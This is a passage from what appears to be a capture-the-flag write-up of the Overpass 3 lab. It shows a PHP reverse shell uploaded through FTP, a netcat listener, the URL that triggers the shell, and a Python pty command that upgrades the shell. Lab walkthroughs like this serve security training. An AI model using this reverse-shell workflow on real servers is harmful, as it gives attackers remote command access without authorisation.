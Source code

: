 ![Testing FTP uploads](/assets/posts/2022-04-30-overpass3/Screenshot 2022-05-09 at 06.28.40.png)

### Uploading a Reverse Shell

I uploaded my {% include link.html href="https://github.com/pentestmonkey/php-reverse-shell" text="reverse shell script" %} to the FTP directory,

![Testing FTP uploads](/assets/posts/2022-04-30-overpass3/Screenshot 2022-05-09 at 06.39.27.png)

set up a netcat listener,

{% highlight shell %}
$ nc -lvnp 8888
# -l    listen mode
# -v    verbose
# -n    numeric-only IP addresses (no DNS)
# -p    port number <8888>
{% endhighlight %}

navigated to the uploaded reverse shell script,

{% highlight HTPP %}
http://10.10.134.110/php-reverse-shell.php
{% endhighlight %}

which resulted in receiving an incoming connection.

![Incoming connection received](/assets/posts/2022-04-30-overpass3/Screenshot 2022-05-09 at 06.49.49.png)

I am currently the `apache` user:

![id command results](/assets/posts/2022-04-30-overpass3/Screenshot 2022-05-09 at 06.52.28.png)

## Web Flag

I wanted to upgrade to a TTY shell with Python:

{% highlight shell %}
python -c 'import pty; pty.spawn("/bin/bash")'
sh: python: command not found
{% endhighlight %}

But as you can see, Python was not installed. *Update: `python3` is installed on the machine so the above command will work when you substitute `python` for `python3`. If that hadn't worked I could have tried the command `/bin/bash -i`, but it turns out in this instance that wouldn't have produced a more stable shell as `/bin/sh` points to `/bin/bash` on the victim machine (there's a symbolic link)*.
